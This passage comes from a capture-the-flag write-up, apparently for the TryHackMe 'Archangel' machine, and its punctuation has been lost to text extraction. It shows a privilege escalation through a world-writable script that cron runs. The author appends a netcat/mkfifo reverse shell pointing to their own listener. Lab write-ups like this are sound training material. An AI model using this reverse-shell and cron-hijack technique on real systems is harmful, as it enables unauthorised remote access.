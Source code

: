  home archangel  bashrc
   endhighlight   

We can see a potentially interesting file by the name of  secret   however this file was a rabbit hole  There are two other interesting findings located in the  opt directory  Going into this directory and looking at the permissions of the helloworld sh file  we see that we have full privileges on this file 

   highlight bash   
www data ubuntu  opt  ls  la  
total 16  
drwxrwxrwx  3 root      root      4096 May  1 08 23    
drwxr xr x 22 root      root      4096 Nov 16 15 39     
drwxrwx     2 archangel archangel 4096 Nov 20 15 04 backupfiles  
 rwxrwxrwx  1 archangel archangel  66 May  1 08 22 helloworld sh
   endhighlight   

Furthermore  we can see from  etc crontab that there is a cronjob executing it as the archangel user 

   highlight bash   
www data ubuntu  opt  cat  etc crontab  
   etc crontab  system wide crontab  
  Unlike any other crontab you don t have to run the  crontab   
  command to install the new version when you edit this file  
  and files in  etc cron d  These files also have username fields   
  that none of the other crontabs do   
  
SHELL  bin sh  
PATH  usr local sbin  usr local bin  sbin  bin  usr sbin  usr bin  
  
  m h dom mon dow user  command  
  1             archangel  opt helloworld sh17              root    cd      run parts   report  etc cron hourly25 6            root    test  x  usr sbin anacron      cd      run parts   report  etc cron daily  47 6        7   root    test  x  usr sbin anacron      cd      run parts   report  etc cron weekly  52 6    1       root    test  x  usr sbin anacron      cd      run parts   report  etc cron monthly    
 
   endhighlight   

Therefore  we can append a reverse shell on the file and listen on the specified port 

   highlight bash   
www data ubuntu  opt  cat helloworld sh  
   bin bash  
echo  hello world      opt backupfiles helloworld txt  
rm  tmp f mkfifo  tmp f cat  tmp f  bin sh  i 2  1 nc 10 2 29 238 9002   tmp f
   endhighlight   

Eventually  the cronjob runs and we get a shell as the archangel user 

   highlight bash   
   0xd4y Writeup     business tryhackme easy linux archangel       nc  lvnp 9002listening on  any  9002      
connect to  10 2 29 238  from  UNKNOWN   10 10 72 16  47742 bin sh  0  can t access tty  job control turned off  
  whoami  
archangel
   endhighlight   
